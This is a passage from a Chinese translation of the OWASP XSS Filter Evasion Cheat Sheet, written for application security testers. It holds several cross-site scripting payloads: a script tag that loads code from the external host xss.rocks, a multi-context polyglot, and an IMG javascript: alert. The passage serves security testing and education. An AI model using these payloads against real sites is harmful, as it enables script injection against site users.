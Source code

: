 # XSS 过滤器规避备忘单[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#xss-filter-evasion-cheat-sheet)

## 介绍[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#introduction)

本文的重点是为应用程序安全测试专业人员提供帮助进行跨站点脚本测试的指南。本文的最初内容由 RSnake 捐赠给 OWASP，来自他开创性的 XSS 备忘单，位于：`http://ha.ckers.org/xss.html`. 该网站现在重定向到这里的新家，我们计划在那里维护和增强它。第一个 OWASP 预防备忘单，[跨站点脚本预防备忘单](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)，受到 RSnake 的 XSS 备忘单的启发，因此我们要感谢 RSnake 的启发。我们希望创建简短的指南，开发人员可以遵循这些指南来防止 XSS，而不是简单地告诉开发人员构建可以防御相当复杂的攻击备忘单中指定的所有花哨技巧的应用程序，因此[OWASP 备忘单系列](https://owasp.org/www-project-cheat-sheets/)诞生了。

## 测试[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#tests)

这份备忘单列出了一系列可用于绕过某些 XSS 防御过滤器的 XSS 攻击。请注意，输入过滤是对 XSS 的不完全防御，这些测试可以用来说明。

### 没有过滤器规避的基本 XSS 测试[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#basic-xss-test-without-filter-evasion)

这是一个普通的 XSS JavaScript 注入，很可能会被捕获，但我建议先尝试一下（在任何现代浏览器中都不需要引号，因此这里省略了）：

```
<SCRIPT SRC=http://xss.rocks/xss.js></SCRIPT>
```

### XSS 定位器（Polygot）[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#xss-locator-polygot)

下面是一个“polygot 测试 XSS 有效载荷”。该测试将在多个上下文中执行，包括 html、脚本字符串、js 和 URL。感谢[Gareth Heyes](https://twitter.com/garethheyes)的[贡献](https://twitter.com/garethheyes/status/997466212190781445)。

```
javascript:/*--></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(1)//'>
```

### 使用 JavaScript 指令的图像 XSS[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#image-xss-using-the-javascript-directive)

使用 JavaScript 指令的图像 XSS（IE7.0 不支持图像上下文中的 JavaScript 指令，但它在其他上下文中支持，但以下显示的原则也适用于其他标记：

```
<IMG SRC="javascript:alert('XSS');">
```

### 没有引号也没有分号[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#no-quotes-and-no-semicolon)
